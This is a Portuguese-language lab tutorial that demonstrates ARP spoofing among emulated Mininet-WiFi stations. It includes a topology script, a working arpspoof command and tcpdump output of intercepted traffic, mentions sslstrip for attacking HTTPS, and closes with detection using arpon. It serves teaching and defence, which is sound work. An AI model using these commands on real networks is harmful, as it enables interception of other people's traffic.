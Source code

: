 ```yaml
---
tags: security-tutorials
---
```


# ARP Spoofing

**In this short demo you will:** 
- How to perform ARP Spoofing attack

**Requirements:** 
- Mininet-WiFi - https://github.com/intrig-unicamp/mininet-wifi
- dsniff
- arpon
- sslstrip


Antes de tudo você precisa identificar a topologia de rede que será gerada através do código abaixo:

```python=
#!/usr/bin/python

'''@author: Ramon Fontes
   @email: ramon.fontes@imd.ufrn.br'''

from mininet.log import setLogLevel, info
from mn_wifi.node import OVSKernelAP
from mn_wifi.link import wmediumd
from mn_wifi.cli import CLI
from mn_wifi.net import Mininet_wifi


def topology():
    "Create a network."
    net = Mininet_wifi()

    info("*** Creating nodes\n")
    ap1 = net.addAccessPoint('ap1', ssid='new-ssid', mode='g',
                             channel='1', position='10,10,0',
                             failMode="standalone")
    sta1 = net.addStation('sta1', position='10,20,0')
    sta2 = net.addStation('sta2', position='10,30,0')

    info("*** Configuring wifi nodes\n")
    net.configureWifiNodes()

    info("*** Starting network\n")
    net.build()
    net.addNAT().configDefault()
    ap1.start([])
    
    sta2.cmd('echo 1 > /proc/sys/net/ipv4/ip_forward')

    info("*** Running CLI\n")
    CLI(net)

    info("*** Stopping network\n")
    net.stop()


if __name__ == '__main__':
    setLogLevel('info')
    topology()
```


Neste tutorial, vamos simular os passos ilustrados na figura de forma a mostrar na prática como ocorre o ataque de ARP Spoofing. Para tanto, vamos considerar executar o script acima. Considerando que o nome do arquivo seja `arp.py` nós o executaríamos da seguinte forma:

```
sudo python arp.py
```

Em seguida, faremos uma tentativa de ping a partir de `sta1` para o endereço 8.8.8.8.

```
mininet-wifi> sta1 ping -c1 8.8.8.8

PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=1 ttl=118 time=68.8 ms
--- 8.8.8.8 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 68.893/68.893/68.893/0.000 ms
```


Como é possível perceber o ping foi realizado com sucesso. Agora, vamos verificar a tabela ARP de `sta1`. Na tabela deverá constar o endereço IP e também o endereço MAC do gateway padrão de `sta1`.

```
mininet-wifi> sta1 arp -a
_gateway (10.0.0.3) at 0a:1e:54:0e:66:96 [ether] on sta1-wlan0
```

Então, vamos simular o ataque de ARP Spoofing e fazer com que `sta1` entenda que o seu gateway na verdade é `sta2`. Primeiro, abra 2 (dois) terminais para `sta2`.

```
mininet-wifi> xterm sta2 sta2
```

Então, no terminal de `sta2` execute o arpspoof, conforme abaixo.

```
sta2# arpspoof -i sta2-wlan0 -t 10.0.0.1 10.0.0.3
```

O comando acima induz 10.0.0.1, que é a vítima, a entender que 10.0.0.2, ou seja, `sta2`, representa o endereço do gateway padrão. Então, após alguns segundos verificamos novamente a tabela ARP de `sta1`.

```
mininet-wifi> sta1 arp -a
_gateway (10.0.0.3) at 02:00:00:00:01:00 [ether] on sta1-wlan0
? (10.0.0.2) at 02:00:00:00:01:00 [ether] on sta1-wlan0
```

Aqui, já podemos notar que o endereço MAC do gateway padrão já não é mais o mesmo do identificado anteriormente. Agora, realizamos um novo ping de `sta1` para o endereço público 8.8.8.8, ao mesmo tempo em que utilizamos o tcpdump no outro terminal de `sta2` para verificar se ele está recebendo tráfego enviado pela vítima.

```
sta2# tcpdump -i sta2-wlan0
20:30:34.970402 IP 10.0.0.1 > alpha-Inspiron: ICMP echo request, id 12251,seq 8, length 64
20:30:34.971552 IP alpha-Inspiron > 10.0.0.1: ICMP echo reply, id 12251, seq 8, length 64
20:30:35.430387 ARP, Reply _gateway is-at 02:00:00:00:01:00 (oui Unknown), length 28
20:30:35.972565 IP 10.0.0.1 > alpha-Inspiron: ICMP echo request, id 12251,seq 9, length 64
20:30:35.973722 IP alpha-Inspiron > 10.0.0.1: ICMP echo reply, id 12251, seq 9, length 64
20:30:36.973743 IP 10.0.0.1 > alpha-Inspiron: ICMP echo request, id 12251, seq 10, length 64
20:30:36.974884 IP alpha-Inspiron > 10.0.0.1: ICMP echo reply, id 12251, seq 10, length 64
```

```
mininet-wifi> sta1 ping -c10 8.8.8.8
```

Após alguns pacotes enviados por `sta1` é possível notar que `sta2` passou a receber os pacotes enviados por ele, pois `sta1` passou a entender que `sta2` seria o verdadeiro gateway padrão. A partir deste momento, `sta2`, o atacante, pode inclusive utilizar de simples ferramentas como sslstrip para realizar ataques em cima do protocolo HTTPS (Hyper Text Transfer Protocol Secure). Vale a pena citar também que esse tipo de ataque pode ser evitado com o uso de ferramentas como ARP handler inspection (ArpON).


Para ver como evitar esse tipo de ataque você pode utilizar o arpon. Para tanto, basta executá-lo em `sta1` antes do ataque ser realizado.


```
mininet-wifi> xterm sta1
arpon -D -i sta1-wlan0
```

Caso houver um ataque em execução será possível observá-lo após executar o arpon, conforme ilustrado abaixo:


```
arpon -D -i sta1-wlan0
Oct 30 10:01:41 [INFO] Start DARPI on sta1-wlan0
Oct 30 10:01:41 [INFO] CLEAN, 10.0.0.3 was at 52:1e:e8:62:58:11 on sta1-wlan0
Oct 30 10:01:53 [INFO] DENY, 10.0.0.3 was at 2:0:0:0:1:0 on sta1-wlan0
Oct 30 10:01:53 [INFO] ALLOW, 10.0.0.3 is at 52:1e:e8:62:58:11 on sta1-wlan0
Oct 30 10:01:55 [INFO] DENY, 10.0.0.3 was at 2:0:0:0:1:0 on sta1-wlan0
```
